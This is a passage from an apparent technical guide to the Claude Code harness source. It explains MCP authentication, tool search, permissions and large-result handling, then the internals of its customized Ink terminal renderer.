The `call()` method starts `performMCPOAuthFlow` with `skipBrowserOpen: true` and captures the authorization URL via a `resolveAuthUrl` callback wired into the `onAuthorizationUrl` parameter. The URL is returned to the model immediately as `{ status: 'auth_url', authUrl }`, while the OAuth flow continues in the background. The `call()` method handles three transport cases: for `claudeai-proxy` servers it returns `{ status: 'unsupported' }` directing the user to `/mcp`, for non-HTTP transports (stdio, sdk) it also returns `{ status: 'unsupported' }` since OAuth only applies to `sse` and `http` transports, and for supported transports it starts the OAuth flow. If the flow completes without needing a URL (e.g., silent auth with cached IdP tokens), the tool returns `{ status: 'auth_url', message: 'Authentication completed silently...' }`.

Once authentication completes, the tool's background continuation clears the auth cache and calls `reconnectMcpServerImpl`, which swaps the real tools into `appState.mcp.tools` using prefix-based replacement:

```typescript
// src/tools/McpAuthTool/McpAuthTool.ts:L137-L166
void oauthPromise
  .then(async () => {
    clearMcpAuthCache()
    const result = await reconnectMcpServerImpl(serverName, config)
    const prefix = getMcpPrefix(serverName)
    setAppState(prev => ({
      ...prev,
      mcp: {
        ...prev.mcp,
        clients: prev.mcp.clients.map(c =>
          c.name === serverName ? result.client : c,
        ),
        tools: [
          ...reject(prev.mcp.tools, t => t.name?.startsWith(prefix)),
          ...result.tools,
        ],
        commands: [
          ...reject(prev.mcp.commands, c => c.name?.startsWith(prefix)),
          ...result.commands,
        ],
        resources: result.resources
          ? { ...prev.mcp.resources, [serverName]: result.resources }
          : prev.mcp.resources,
      },
    }))
  })
```

The `reject` call removes any existing tools matching the `mcp__<server>__` prefix (including the `McpAuthTool` itself, which shares that prefix), then appends the newly connected tools. For `claudeai-proxy` servers, the tool returns `{ status: 'unsupported' }` and instructs the model to direct the user to `/mcp`, since those connectors use a separate auth flow handled by the `MCPRemoteServerMenu` UI component.

The auth-caching mechanism in `src/services/mcp/client.ts:L280-L316` prevents cc from repeatedly attempting to connect to servers that have recently returned 401. The `isMcpAuthCached` function checks whether a server's needs-auth entry is still within the 15-minute TTL. If so, the server is skipped during the batch connection process, and only the `McpAuthTool` is added to the tool list. This avoids wasting network round-trips on servers that cannot succeed until the user authenticates.

### MCP tools during context compaction

When the compaction subsystem runs (Chapter 28), MCP tools are classified alongside built-in tools. The compaction logic in `src/services/compact/compact.ts` does not special-case MCP tools for collapse; instead, it applies the same tool-result summarization rules regardless of whether the tool is built-in or MCP-sourced. However, the larger result sizes typical of MCP tools (database query results, API responses) make them more likely candidates for the large-output persistence path described in the next section. During micro-compaction, MCP tool results that have already been persisted to disk are represented by their file path reference, which compacts efficiently. The `isMcp: true` flag on each MCP tool wrapper ensures that the compaction logic can distinguish MCP tool results from built-in tool results when needed for logging and analytics, even though the core compaction algorithm treats them uniformly.

The UI collapse classification for MCP tools follows a different path. The `classifyMcpToolForCollapse` function in `src/tools/MCPTool/classifyForCollapse.ts` categorizes each MCP tool as search, read, or neither. This classification drives the terminal UI's decision to collapse verbose tool results into a single line. The function uses explicit per-tool allowlists -- `SEARCH_TOOLS` and `READ_TOOLS` are `Set<string>` instances containing over 500 normalized tool names across 30+ MCP server implementations (Slack, GitHub, Linear, Datadog, Sentry, Notion, Gmail, Google Drive, Atlassian, Asana, and many more).

The classification works by normalizing the tool name (converting camelCase and kebab-case to snake_case) and checking membership in the appropriate set. The `normalize` function at `src/tools/MCPTool/classifyForCollapse.ts:L588-L593` applies two transformations: splitting CamelCase words with underscores and replacing hyphens with underscores. The server name is passed as a parameter but currently unused (`_serverName`), reserved for future server-scoped classification. Unknown tool names return `{ isSearch: false, isRead: false }`, a conservative default that avoids collapsing results the user might need to see in full. The `isSearchOrReadCommand()` method on each MCP tool wrapper delegates to this classifier, so the UI layer can decide how to render tool results independently of the compaction subsystem.

### ToolSearch keyword matching for MCP tools

The `searchToolsWithKeywords` function in `src/tools/ToolSearchTool/ToolSearchTool.ts:L186-L302` implements the search algorithm that surfaces MCP tools when the model needs them. The algorithm handles MCP tools differently from built-in tools at several points:

First, the `parseToolName` function at `src/tools/ToolSearchTool/ToolSearchTool.ts:L132-L161` recognizes MCP tools by the `mcp__` prefix and splits the name differently. For an MCP tool like `mcp__slack__search_messages`, it strips the `mcp__` prefix, splits on `__` to get `['slack', 'search']`, then further splits each part on `_` to get `['slack', 'search', 'messages']`. This produces searchable tokens from both the server name and the tool action. For regular tools (CamelCase names like `FileReadTool`), it splits on case boundaries and underscores instead.

Second, MCP tools receive a scoring boost. An exact part match on an MCP tool name scores 12 points versus 10 for non-MCP tools. A partial part match scores 6 versus 5. This boost reflects the higher signal value of MCP server names: when the model searches for "slack", it is almost certainly looking for the Slack MCP server's tools, not a built-in tool with "slack" in its description.

Third, the algorithm supports two fast-path shortcuts for MCP tools. If the query exactly matches a deferred tool name (case-insensitive), the tool is returned immediately without scoring. If the query starts with `mcp__` and is longer than 5 characters, the algorithm filters deferred tools by prefix match.

Fourth, the `searchHint` field provides a curated capability phrase that scores 4 points on match (higher than description matches at 2 points). MCP servers can set `searchHint` via the `_meta['anthropic/searchHint']` annotation on their tool definitions, giving server authors a way to improve discoverability without modifying the tool name.

## Where cc diverges from the published pattern

### Passthrough permissions vs. capability-based trust

HER Pattern 9 (Progressive Tool Expansion) recommends starting with a minimal tool set and expanding on demand. cc implements this faithfully through the `isMcp` flag and `ToolSearchTool`. However, the pattern does not prescribe a permission model for expanded tools. cc's choice of "passthrough" permissions -- requiring user approval for every MCP tool call unless a rule explicitly allows it -- is more conservative than some harnesses. For example, Cursor's IDE-integrated permission model auto-approves tools from trusted extensions, while cc treats all MCP servers as untrusted by default.

### No per-server permission scoping

The permission system in cc uses fully qualified tool names (`mcp__<server>__<tool>`) for rule matching. This means a user can allow or deny individual tools, but there is no way to express "trust all tools from server X." Users must add a rule per tool, which becomes cumbersome for servers with many tools. The `checkPermissions()` suggestions include the fully qualified name, making one-click approval possible, but bulk approval requires editing settings manually.

### Description truncation as a safety measure

The `MAX_MCP_DESCRIPTION_LENGTH` of 2048 characters is a practical constraint, not a safety boundary. OpenAPI-generated MCP servers have been observed dumping 15-60 KB of endpoint documentation into `tool.description` (`src/services/mcp/client.ts:L215-L218`). The truncation prevents context bloat, but it also removes potentially useful documentation. The tradeoff favors compact prompts over completeness, aligning with HER's observation that "too many tools is bad" and excess tool descriptions push agents into a degraded performance regime.

### The `mcp__` prefix and tool name normalization

The `buildMcpToolName` function in `src/services/mcp/mcpStringUtils.ts` constructs fully qualified tool names following the `mcp__<server>__<tool>` convention. The `normalizeNameForMCP` function in `src/services/mcp/normalization.ts` sanitizes server and tool names to produce valid identifiers, replacing characters that are not allowed in tool names (spaces, special characters, etc.) with underscores or removing them.

There is an escape hatch for SDK MCP servers: when the `CLAUDE_AGENT_SDK_MCP_NO_PREFIX` environment variable is set, the prefix is skipped, and the original tool name is used directly. This allows SDK MCP tools to override built-in tools by name, which is useful when an SDK consumer wants to replace a default tool with a custom implementation:

```typescript
// src/services/mcp/client.ts:L1761-L1763
const skipPrefix =
  client.config.type === 'sdk' &&
  isEnvTruthy(process.env.CLAUDE_AGENT_SDK_MCP_NO_PREFIX)
```

When the prefix is skipped, the `mcpInfo` field still carries the server/tool pair, so the permission system can match rules against the fully qualified name even though the model invokes the tool by its short name.

### Elicitation handling for MCP servers

MCP servers can send elicitation requests to the client, asking for user input during tool execution. The `callMCPToolWithUrlElicitationRetry` function in `src/services/mcp/client.ts` wraps the tool call with elicitation handling. When a server sends an elicitation request, cc displays a dialog in the terminal (via the `ElicitationDialog` component) that allows the user to provide the requested input.

The `registerElicitationHandler` in the connection setup registers a default elicitation handler that returns "cancel" during the initialization window (before the UI handler is registered). This prevents elicitation requests from hanging during the brief period between connection establishment and UI setup:

```typescript
// src/services/mcp/client.ts:L1188-L1197
client.setRequestHandler(ElicitRequestSchema, async request => {
  logMCPDebug(name, `Elicitation request received during initialization: ${jsonStringify(request)}`)
  return { action: 'cancel' as const }
})
```

### Large result handling and persistence

When an MCP tool returns a result that exceeds the token budget, cc persists it to disk and returns a reference instead of injecting the full content into the model's context. The `processMCPResult` function in `src/services/mcp/client.ts:L2720-L2799` implements this logic:

1. Transform the result into a normalized format via `transformMCPResult`.
2. Check if the content needs truncation via `mcpContentNeedsTruncation`.
3. If the large-output-files feature is enabled and the content does not contain images, persist it to disk via `persistToolResult`.
4. Return a compact message with the file path and format description, instructing the model to use `FileReadTool` to access the content.

This persistence strategy is a critical optimization for MCP servers that return large structured data (e.g., database query results, API responses). Without it, a single large result could consume the entire context window, leaving no room for the model's reasoning.

## Developer takeaways for building a long-running agent

1. **Defer aggressively, load lazily.** The `isMcp: true` + `isDeferredTool()` + `ToolSearch` pattern keeps the initial prompt compact. For a harness with 60+ tools (the cc baseline), deferring MCP tools reduces startup token cost by thousands of tokens. Implement deferred loading for any tool the model might not need in the first turn. Use a property on the tool object (like `isMcp`) rather than requiring each tool to set a `shouldDefer` flag, so that entire categories of tools can be deferred by policy.

2. **Treat external tools as untrusted.** The passthrough permission model is the correct default for tools whose code you do not control. Never auto-approve MCP tool calls. Instead, provide a smooth UX for adding per-tool permission rules (cc's `suggestions` field in `checkPermissions()` is a good pattern).

3. **Persist large outputs to disk.** Binary blobs and large text results should never be injected verbatim into the model's context. Write them to a temporary file and return a path reference. This is observation masking in action: the model gets enough metadata to decide whether to read the file, without paying the token cost upfront.

4. **Cache connection state with invalidation.** The memoization of `connectToServer` with cache clearing on `onclose` gives you transparent reconnection. But you must also clear the downstream caches (`fetchToolsForClient`, `fetchResourcesForClient`, `fetchCommandsForClient`) because reconnection creates a new connection object whose tools may differ from the stale cache.

5. **Cap descriptions and instructions from untrusted sources.** MCP servers can return arbitrarily long descriptions and instructions. Truncate aggressively (cc uses 2048 characters) to prevent context pollution. Log the truncation so developers can diagnose missing information.

6. **Design for partial failure in batched operations.** When listing resources from multiple MCP servers, one server's failure should not sink the entire result. The `Promise.all` with per-server try/catch in `ListMcpResourcesTool.call()` is a robust pattern for aggregating partial results.

7. **Separate tool identity from tool implementation.** The `MCPTool` base + spread-override pattern cleanly separates the generic tool contract from the server-specific implementation. This makes it straightforward to add new MCP servers without modifying the tool infrastructure.

8. **Provide a self-healing auth flow.** The `McpAuthTool` pattern -- where a pseudo-tool appears in place of the real tools for unauthenticated servers, and the model can trigger OAuth by calling it -- removes the need for the user to leave the session to authenticate. Once authentication completes, the real tools are swapped in automatically via prefix-based replacement in app state.
# The Ink Renderer and Terminal Engine

## Overview

Claude Code's user interface runs entirely in the terminal, yet it delivers a rich, interactive experience: syntax-highlighted code, scrollable output, text selection, search highlighting, focus management, and keybinding-driven navigation. This is possible because cc does not use Ink off-the-shelf -- it runs a deeply customized fork that replaces Ink's rendering pipeline with a double-buffered screen differencing engine, a custom Yoga layout integration, and a React reconciler tuned for terminal frame rates. The result is a terminal UI that feels like a native application, not a retro text interface.

HER Section 21's reference architecture identifies Layer 7 as the UX layer: "the harness is the outer runtime layer that orchestrates the model's interactions with tools, permissions, hooks, memory, and the user." The Ink renderer is the primary orchestration surface between the model and the user, and its performance characteristics directly affect the perceived responsiveness of the entire system. A harness that cannot render tokens as they stream, or that flickers on every frame, breaks the real-time feedback loop that makes long-running agents usable.

This chapter examines the four source files that form the rendering spine: `src/ink/ink.tsx` (the top-level Ink class that owns the render loop), `src/ink/screen.ts` (the screen buffer with interned character, style, and hyperlink pools), `src/ink/output.ts` (the operation collector that maps React component trees to screen writes), and `src/ink/Ansi.tsx` (the ANSI escape code parser component). It also covers `src/ink/reconciler.ts` (the custom React reconciler that integrates Yoga layout), `src/ink/renderer.ts` (the diff-to-terminal bridge), and `src/ink/focus.ts` (the DOM-like focus manager). Together, they form a pipeline: React components declare what should appear, the reconciler commits to a virtual DOM, the output engine translates the DOM into write/blit/clear operations on a screen buffer, and the renderer diffs two screen buffers to emit minimal terminal escape sequences.

## Data structures and contracts

### The Ink class: render loop owner

The `Ink` class in `src/ink/ink.tsx` is the orchestrator. It owns the React `FiberRoot`, the `FocusManager`, the `StylePool`, `CharPool`, and `HyperlinkPool`, and two `Frame` objects used for double-buffered diffing:

```typescript
// src/ink/ink.tsx:L76-L179
export default class Ink {
  private readonly log: LogUpdate;
  private readonly terminal: Terminal;
  private scheduleRender: (() => void) & { cancel?: () => void; };
  private isUnmounted = false;
  private isPaused = false;
  private readonly container: FiberRoot;
  private rootNode: dom.DOMElement;
  readonly focusManager: FocusManager;
  private renderer: Renderer;
  private readonly stylePool: StylePool;
  private charPool: CharPool;
  private hyperlinkPool: HyperlinkPool;
  private exitPromise?: Promise<void>;
  private restoreConsole?: () => void;
  private restoreStderr?: () => void;
  private readonly unsubscribeTTYHandlers?: () => void;
  private terminalColumns: number;
  private terminalRows: number;
  private currentNode: ReactNode = null;
  private frontFrame: Frame;
  private backFrame: Frame;
  private lastPoolResetTime = performance.now();
  private drainTimer: ReturnType<typeof setTimeout> | null = null;
  private lastYogaCounters: {
    ms: number;
    visited: number;
    measured: number;
    cacheHits: number;
    live: number;
  } = { ms: 0, visited: 0, measured: 0, cacheHits: 0, live: 0 };
  private altScreenParkPatch: Readonly<{ type: 'stdout'; content: string; }>;
  readonly selection: SelectionState = createSelectionState();
  private searchHighlightQuery = '';
  private searchPositions: {
    positions: MatchPosition[];
    rowOffset: number;
    currentIdx: number;
  } | null = null;
  private readonly selectionListeners = new Set<() => void>();
  private readonly hoveredNodes = new Set<dom.DOMElement>();
  private altScreenActive = false;
  private altScreenMouseTracking = false;
  private prevFrameContaminated = false;
  private needsEraseBeforePaint = false;
  private cursorDeclaration: CursorDeclaration | null = null;
  private displayCursor: { x: number; y: number; } | null = null;
```

The `frontFrame` and `backFrame` are swapped each render: the back frame is written to by the current render, and the front frame holds the previous state for diffing. The `selection` object tracks text selection state (anchor, focus, range) for the alt-screen mode. The `cursorDeclaration` field enables components to declare where the terminal cursor should be parked after each frame, which is critical for IME input (CJK character composition) and screen reader tracking. The `displayCursor` field tracks the physical cursor position after the declared-cursor move, separate from `frame.cursor` which must stay at content-bottom for log-update's relative-move invariants.

### Screen buffer with shared pools

The `Screen` type and its associated pools are defined in `src/ink/screen.ts`. The screen is a 2D grid of cells, where each cell is a packed integer encoding a character ID, style ID, cell width, and hyperlink ID:

```typescript
// src/ink/screen.ts:L21-L53
export class CharPool {
  private strings: string[] = [' ', '']
  private stringMap = new Map<string, number>([[' ', 0], ['', 1]])
  private ascii: Int32Array = initCharAscii()

  intern(char: string): number {
    if (char.length === 1) {
      const code = char.charCodeAt(0)
      if (code < 128) {
        const cached = this.ascii[code]!
        if (cached !== -1) return cached
        const index = this.strings.length
        this.strings.push(char)
        this.ascii[code] = index
        return index
      }
    }
    const existing = this.stringMap.get(char)
    if (existing !== undefined) return existing
    const index = this.strings.length
    this.strings.push(char)
    this.stringMap.set(char, index)
    return index
  }

  get(index: number): string {
    return this.strings[index] ?? ' '
  }
}
```

The `CharPool` interns every unique character string to an integer ID. ASCII characters (code < 128) use a fixed `Int32Array` lookup for O(1) intern speed. Non-ASCII characters (CJK, emoji) fall through to a `Map`. Because the pool is session-lived and shared across all screens, blit operations can copy character IDs directly between screens without re-interning.

The `StylePool` interns arrays of ANSI SGR codes into integer IDs with a bit-0 flag encoding whether the style has a visible effect on space characters (background, inverse, underline). This lets the renderer skip invisible spaces with a single bitmask check:

```typescript
// src/ink/screen.ts:L112-L162
export class StylePool {
  private ids = new Map<string, number>()
  private styles: AnsiCode[][] = []
  private transitionCache = new Map<number, string>()
  readonly none: number

  intern(styles: AnsiCode[]): number {
    const key = styles.length === 0 ? '' : styles.map(s => s.code).join('\0')
    let id = this.ids.get(key)
    if (id === undefined) {
      const rawId = this.styles.length
      this.styles.push(styles.length === 0 ? [] : styles)
      id = (rawId << 1) | (styles.length > 0 && hasVisibleSpaceEffect(styles) ? 1 : 0)
      this.ids.set(key, id)
    }
    return id
  }

  transition(fromId: number, toId: number): string {
    if (fromId === toId) return ''
    const key = fromId * 0x100000 + toId
    let str = this.transitionCache.get(key)
    if (str === undefined) {
      str = ansiCodesToString(diffAnsiCodes(this.get(fromId), this.get(toId)))
      this.transitionCache.set(key, str)
    }
    return str
  }
}
```

The `transition()` method pre-computes the ANSI escape sequence needed to transition from one style to another, cached by `(fromId, toId)` pair. After the first call for a given pair, all subsequent transitions are a single `Map.get` lookup with zero allocations.

### Output: operation collector

The `Output` class in `src/ink/output.ts` collects rendering operations (write, blit, clip, clear, shift) from the React component tree, then applies them to a screen buffer in `get()`:

```typescript
// src/ink/output.ts:L62-L168
export type Operation =
  | WriteOperation
  | ClipOperation
  | UnclipOperation
  | BlitOperation
  | ClearOperation
  | NoSelectOperation
  | ShiftOperation

type WriteOperation = {
  type: 'write'
  x: number
  y: number
  text: string
  softWrap?: boolean[]
}

type BlitOperation = {
  type: 'blit'
  src: Screen
  x: number
  y: number
  width: number
  height: number
}

type ClearOperation = {
  type: 'clear'
  region: Rectangle
  fromAbsolute?: boolean
}
```

The `WriteOperation` carries `softWrap` flags to distinguish line breaks inserted by word-wrap from explicit newlines in the source. This is used by the selection system to reconstruct the logical line structure. The `BlitOperation` copies a region from one screen to another, used for absolute-positioned overlays. The `ClearOperation` with `fromAbsolute: true` handles stale paint from absolutely-positioned nodes that overlay normal-flow siblings.

The `Output` class also maintains a `charCache` that memoizes the tokenization and grapheme-clustering of line strings across frames. Because most lines do not change between renders, the `charCache` turns the expensive tokenize + grapheme-clustering step into a cache hit for the majority of lines:

```typescript
// src/ink/output.ts:L170-L205
export default class Output {
  width: number
  height: number
  private readonly stylePool: StylePool
  private screen: Screen
  private readonly operations: Operation[] = []
  private charCache: Map<string, ClusteredChar[]> = new Map()

  reset(width: number, height: number, screen: Screen): void {
    this.width = width
    this.height = height
    this.screen = screen
    this.operations.length = 0
    resetScreen(screen, width, height)
    if (this.charCache.size > 16384) this.charCache.clear()
  }
}
```

The `charCache` is capped at 16,384 entries to prevent unbounded growth, and cleared entirely when the cap is exceeded. The `reset()` method preserves the `charCache` across frames but zeroes the screen buffer and clears the operation list.

### Ansi component

The `Ansi` component in `src/ink/Ansi.tsx` is the escape hatch for pre-formatted ANSI strings from external tools. It parses ANSI escape codes using the `termio` parser and renders them as a sequence of `Text` components with appropriate styling. The compiled output uses React's compiler runtime (`_c` memo slots) for automatic memoization:

```typescript
// src/ink/Ansi.tsx:L32-L109
export const Ansi = React.memo(function Ansi(t0) {
  const $ = _c(12);
  const { children, dimColor } = t0;
  if (typeof children !== "string") {
    let t1;
    if ($[0] !== children || $[1] !== dimColor) {
      t1 = dimColor ? <Text dim={true}>{String(children)}</Text> : <Text>{String(children)}</Text>;
      $[0] = children; $[1] = dimColor; $[2] = t1;
    } else { t1 = $[2]; }
    return t1;
  }
  if (children === "") { return null; }
  let t1; let t2;
  if ($[3] !== children || $[4] !== dimColor) {
    t2 = Symbol.for("react.early_return_sentinel");
    bb0: {
      const spans = parseToSpans(children);
      if (spans.length === 0) { t2 = null; break bb0; }
      if (spans.length === 1 && !hasAnyProps(spans[0].props)) {
        t2 = dimColor ? <Text dim={true}>{spans[0].text}</Text> : <Text>{spans[0].text}</Text>;
        break bb0;
      }
      // ... map spans to StyledText/Link components
    }
    $[3] = children; $[4] = dimColor; $[5] = t1; $[6] = t2;
  } else { t1 = $[5]; t2 = $[6]; }
  if (t2 !== Symbol.for("react.early_return_sentinel")) { return t2; }
  // ... wrap content in <Text dim={dimColor}>
  return t3;
});
```

The `$` array is the React compiler's memo cache: each slot pair `($[n], $[n+1])` stores the inputs and `($[n+2])` stores the output. When inputs match the cached values, the cached result is reused without re-evaluation. The `Symbol.for("react.early_return_sentinel")` pattern enables early returns from the memoized block without breaking the cache protocol. The `parseToSpans` function merges adjacent spans with identical styling to minimize React element count.

## Control flow

### Keypress to render cycle

The render cycle is triggered by user input (keypress, mouse event) or by state changes from the agent. The flow from keystroke to terminal update goes through several stages:

```mermaid
sequenceDiagram
    participant Terminal
    participant Ink
    participant Reconciler
    participant Output
    participant Screen
    participant Renderer
    Terminal->>Ink: keypress event
    Ink->>Ink: scheduleRender()
    Ink->>Reconciler: render(currentNode)
    Reconciler->>Output: commit to virtual DOM
    Output->>Screen: apply write/blit/clear ops
    Screen->>Renderer: diff frontFrame vs backFrame
    Renderer->>Terminal: write minimal ANSI patches
```

1. The terminal emits a keypress event (or the model streams a response, or a tool produces output).
2. `Ink.scheduleRender()` is called, debounced to `FRAME_INTERVAL_MS` (typically 16ms for 60fps).
3. The React reconciler processes pending state updates and commits to the virtual DOM.
4. `renderNodeToOutput` walks the DOM tree and collects `Output` operations.
5. `Output.get()` applies the operations to the back-frame screen buffer.
6. The renderer diffs the front frame (previous state) against the back frame (new state).
7. Minimal ANSI escape sequences are written to the terminal to transition from the old state to the new state.

### Double-buffered diffing

The diffing algorithm compares two screen buffers cell-by-cell. For each cell that changed, it emits the style transition (via `StylePool.transition()`) and the character. Because style transitions are cached, most cells require zero allocations. The diff also handles row shifts (when content scrolls) by emitting cursor-move sequences instead of rewriting the entire screen.

```mermaid
stateDiagram-v2
    [*] --> Scheduled: state change
    Scheduled --> Rendering: debounce fires
    Rendering --> Committing: reconciler done
    Committing --> Diffing: output applied to backFrame
    Diffing --> Writing: patches computed
    Writing --> Idle: terminal updated
    Idle --> Scheduled: next change
```

The `prevFrameContaminated` flag handles cases where the previous frame's screen buffer cannot be trusted for diffing (e.g., after selection overlay mutations or `forceRedraw()`). When set, the renderer performs a full repaint instead of a diff.

### The custom reconciler and Yoga layout

The original Ink library uses React's built-in reconciler with a custom host config. cc replaces this with a custom reconciler (`src/ink/reconciler.ts`) built on `react-reconciler` that adds performance tracking, commit timing, and deep Yoga layout integration. The reconciler defines a host config that maps React primitives to the terminal DOM: `createNode`, `appendChildNode`, `removeChildNode`, `setAttribute`, `setStyle`, and `setTextNodeValue`. These operations build the virtual DOM tree that the output engine later walks.

The critical addition is the `onComputeLayout` callback, which fires during the React commit phase but before layout effects. The Ink class sets this callback to invoke Yoga's `calculateLayout` synchronously:

```typescript
// src/ink/ink.tsx:L239-L258
this.rootNode.onComputeLayout = () => {
  if (this.isUnmounted) return;
  if (this.rootNode.yogaNode) {
    const t0 = performance.now();
    this.rootNode.yogaNode.setWidth(this.terminalColumns);
    this.rootNode.yogaNode.calculateLayout(this.terminalColumns);
    const ms = performance.now() - t0;
    recordYogaMs(ms);
    const c = getYogaCounters();
    this.lastYogaCounters = { ms, ...c };
  }
};
```

The layout is calculated synchronously during the commit phase, so `useLayoutEffect` hooks have access to fresh layout data. The `recordYogaMs` and `getYogaCounters` functions track layout performance (time, nodes visited, nodes measured, cache hits, live nodes), which is exposed to the debug overlay for profiling render bottlenecks. Layout times exceeding 16ms indicate that the component tree is too deep or too wide for smooth 60fps rendering.

The reconciler also handles style diffing (`diff(before, after)`) to compute minimal attribute updates, markDirty propagation for scroll drain continuation, and devtools integration gated behind `NODE_ENV === 'development'`.

### The renderer: diff-to-terminal bridge

The `createRenderer` function in `src/ink/renderer.ts` is the final stage that transforms the output's screen buffer into a frame. It reuses the `Output` instance across frames so the `charCache` persists. On each call, it:

1. Validates Yoga dimensions (guarding against NaN, negative, or Infinity from invalid layout).
2. Clamps alt-screen height to `terminalRows` (sibling-of-AlternateScreen bugs can cause yogaHeight to exceed rows, which desyncs the cursor model).
3. Resets or creates the `Output`, then calls `renderNodeToOutput` to walk the DOM tree.
4. Calls `output.get()` to apply operations and return the rendered screen.
5. Returns a `Frame` with the screen, viewport dimensions, and cursor position.

The `prevFrameContaminated` flag is consumed here: when true (or when an absolute-positioned node was removed), the previous frame's screen is passed as `undefined` to `renderNodeToOutput`, preventing the blit optimization from copying stale inverted cells. When clean, blit restores the O(unchanged) fast path for steady-state frames (spinner tick, text stream).

The renderer also handles scroll drain: after rendering, it checks `getScrollDrainNode()` and calls `markDirty` on the drain node so the next frame descends into scrollboxes that were cleared during the current render.

### Focus management

The `FocusManager` in `src/ink/focus.ts` provides DOM-like focus management for the terminal UI. It tracks the `activeElement` and a focus stack (capped at `MAX_FOCUS_STACK = 32` entries) for restoration when elements are removed. Focus is propagated through the component tree via a React context: components like `<Box focusable>` declare a `tabIndex` attribute, and Tab/Shift-Tab cycles through focusable elements via `focusNext`/`focusPrevious`.

```mermaid
stateDiagram-v2
    [*] --> Unfocused: component mounts
    Unfocused --> Focused: Tab / click / autoFocus
    Focused --> Focused: Tab to next element
    Focused --> Blurred: Tab away / node removed
    Blurred --> Restored: focus stack pop
    Restored --> Focused: previous element refocused
    Focused --> Unfocused: blur() called
```

The `focus()` method dispatches `FocusEvent` with `'blur'` on the previous element and `'focus'` on the new one, mirroring the browser's focus event lifecycle. The `handleNodeRemoved` method is called by the reconciler when a node is removed from the tree: it filters the focus stack to remove the deleted node and any descendants, then dispatches blur and restores focus from the stack. This ensures that removing a focused component (e.g., a tool result that disappears) does not leave the focus system in an orphaned state.

The `collectTabbable` function walks the tree depth-first, collecting all nodes with a numeric `tabIndex >= 0`. The `moveFocus` method cycles through this list, wrapping around at the ends. The `handleAutoFocus` and `handleClickFocus` methods support `autoFocus` and click-to-focus respectively. The `enable()`/`disable()` methods gate all focus operations, used when the Ink instance is paused or in a non-interactive mode.

### Alt-screen mode

When cc enters the interactive REPL, it switches the terminal to alternate screen mode (using the `\x1b[?1049h` escape sequence). This gives cc a private screen buffer that does not share history with the user's shell. In alt-screen mode:

- The cursor is hidden (content fills the screen, no prompt cursor needed).
- Mouse tracking is enabled for click, drag, and hover events.
- Text selection is handled in-process rather than by the terminal emulator.
- The cursor is "parked" at the bottom-right corner after each frame to prevent the terminal from scrolling.

The `altScreenActive` flag gates all alt-screen-specific behavior. When the user exits cc, the terminal is restored to the primary screen buffer.

The alt-screen cursor parking uses a pre-computed patch object to avoid allocations on each frame. Since the cursor position in alt-screen is always at the bottom row, the patch is a simple cursor-position escape sequence:

```typescript
// src/ink/ink.tsx:L45-L66
const ALT_SCREEN_ANCHOR_CURSOR = Object.freeze({
  x: 0,
  y: 0,
  visible: false
})

function makeAltScreenParkPatch(terminalRows: number) {
  return Object.freeze({
    type: 'stdout' as const,
    content: cursorPosition(terminalRows, 1)
  })
}
```

The `Object.freeze` ensures these objects are never accidentally mutated, and the `makeAltScreenParkPatch` factory creates a fresh frozen object when the terminal is resized.

### Synchronized updates for atomic rendering

The renderer uses the BSU/ESU (Begin Synchronized Update / End Synchronized Update) protocol to ensure that multi-patch frame updates appear atomically on the terminal. Without synchronized updates, a frame that requires 10 patches could be partially rendered (showing some patches from the new frame and some from the old frame) if the terminal processes the output in the middle of writing. The BSU/ESU escapes tell the terminal to buffer all output until the ESU is received, then apply it all at once.

This is especially important for resize handling. The `handleResize` method sets `needsEraseBeforePaint = true`, which prepends an ERASE_SCREEN sequence to the next frame's patches inside the BSU/ESU block. Writing ERASE_SCREEN synchronously in the resize handler would leave the screen blank for the approximately 80ms it takes for the next render to complete; deferring it into the atomic block means old content stays visible until the new frame is fully ready.

### Search highlight and selection overlay

The Ink class manages two overlay systems that modify the screen buffer after the content render:

1. **Search highlight**: When the user searches in transcript mode, the `applySearchHighlight` function scans the screen buffer for matching cells and applies an inverse+bold+yellow style. The "current" match gets a distinct yellow background (via the fg-then-inverse swap trick in `StylePool.withCurrentMatch`) so it stands out from other matches.

2. **Text selection**: The `applySelectionOverlay` function applies an inverse style to the selected region of cells. The selection is managed by the `SelectionState` object, which tracks the anchor, focus, and selection range.

Both overlays modify the front-frame screen buffer directly. This creates a problem: the diffing algorithm compares the front frame (which now has overlay styles) against the back frame (which does not), producing incorrect diffs that include the overlay styles as changes. The `prevFrameContaminated` flag forces a full repaint after overlay mutations, ensuring the clean back-frame state is used for the next diff.

## Edge cases and failure modes

### Terminal resize during render

Terminal resize events arrive asynchronously. If a resize occurs mid-render, the front and back frame dimensions become inconsistent. The Ink class handles this by deferring the resize into the next render cycle: `handleResize` sets `needsEraseBeforePaint = true` and updates `terminalColumns`/`terminalRows`, and the next `onRender` prepends an ERASE_SCREEN sequence inside the BSU/ESU (Begin Synchronized Update / End Synchronized Update) block so the clear and repaint are atomic. The `handleResize` method is intentionally not debounced: a debounce would open a window where `stdout.columns` is new but the Yoga dimensions are old, causing log-update to detect a width change and clear the screen, then the debounce fires and clears again (double blank-to-paint flicker).

### Wide characters and grapheme clusters

CJK characters, emoji, and combining marks occupy more than one terminal column. The `Output` class uses a grapheme segmenter to split strings into grapheme clusters, then computes the terminal width of each cluster. The `CellWidth` enum in `screen.ts` marks cells as `Narrow` (1 column), `Wide` (2 columns), `SpacerTail` (the second column of a wide character), or `SpacerHead` (spacer at the end of a soft-wrapped line indicating that a wide character continues on the next line). The diffing algorithm skips spacer cells when writing characters, preventing double-writes that would corrupt the display.

### Pool growth and memory

The `CharPool`, `StylePool`, and `HyperlinkPool` grow monotonically during a session. The `charCache` in `Output` is capped at 16,384 entries to prevent unbounded growth, and the pools are reset periodically (triggered by `lastPoolResetTime`). The `HyperlinkPool` resets every 5 minutes because OSC8 hyperlinks are transient (browser-style link IDs that expire). The `StylePool` is session-lived because styles are stable (the same bold+yellow combination always maps to the same ID).

### Selection overlay contamination

The text selection overlay modifies cells directly on the front-frame screen buffer (applying inverse style). If the next render diffs against this contaminated buffer, the diff incorrectly sees the selection overlay as the "previous" state. The `prevFrameContaminated` flag forces a full repaint after selection mutations, ensuring the clean back-frame state is used for diffing.

### Invalid Yoga dimensions

The renderer guards against invalid Yoga dimensions before creating screen buffers. If `getComputedHeight()` or `getComputedWidth()` returns NaN, Infinity, or a negative number (which can happen when Yoga is called before `calculateLayout()` or when a component tree is malformed), the renderer returns an empty frame with a zero-height screen. This prevents `RangeError` from array allocation with invalid sizes. The invalid dimensions are logged via `logForDebugging` so the `--debug` flag surfaces the root cause.

### Alt-screen height overflow

